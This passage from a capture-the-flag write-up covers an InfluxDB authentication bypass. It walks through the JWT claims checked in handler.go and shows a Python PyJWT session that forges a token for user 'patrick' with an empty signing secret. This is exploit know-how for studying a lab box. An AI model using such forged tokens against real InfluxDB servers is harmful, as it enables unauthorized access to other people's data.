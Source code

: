#### JWT Format

I’ll need to know the format of the JWT token in order to forge it. The link
in the GitHub issue points to code in `handler.go`, specifically the [case for
`BearerAuthentication`](https://github.com/influxdata/influxdb/blob/e2af85d6503ecaaa4dbdbdd9ddad740741dae582/services/httpd/handler.go#L1585-L1634).
On line
[1604](https://github.com/influxdata/influxdb/blob/e2af85d6503ecaaa4dbdbdd9ddad740741dae582/services/httpd/handler.go#L1604),
it parses the `token` into a set of `claims`:

    
    
    claims, ok := token.Claims.(jwt.MapClaims)
    

Later, in lines
[1611-1625](https://github.com/influxdata/influxdb/blob/e2af85d6503ecaaa4dbdbdd9ddad740741dae582/services/httpd/handler.go#L1611-L1625),
it uses both `claims["exp"]` and `claims["username"]`:

    
    
    // Make sure an expiration was set on the token.
    if exp, ok := claims["exp"].(float64); !ok || exp <= 0.0 {
        h.httpError(w, "token expiration required", http.StatusUnauthorized)
        return
    }
    
    // Get the username from the token.
    username, ok := claims["username"].(string)
    if !ok {
        h.httpError(w, "username in token must be a string", http.StatusUnauthorized)
        return
    } else if username == "" {
        h.httpError(w, "token must contain a username", http.StatusUnauthorized)
        return
    }
    

I don’t see any other fields references, so I’ll start by making a JWT with
those two.

#### Craft JWT

I’ll make a token in with [PyJWT](https://pyjwt.readthedocs.io/en/stable/):

    
    
    oxdf@hacky$ python3
    Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import jwt
    >>> import time
    >>> int(time.time())
    1647008155
    >>> jwt.encode({"exp": time.time()+10000, "username": "patrick"}, "", algorithm="HS256")
    b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDcwMTgyMDIuMDU4MTAzMywidXNlcm5hbWUiOiJwYXRyaWNrIn0.xRh2gVo-K2WMHFTrYqLZgPDkEa0RHL6LrRKsHg5icFA'
    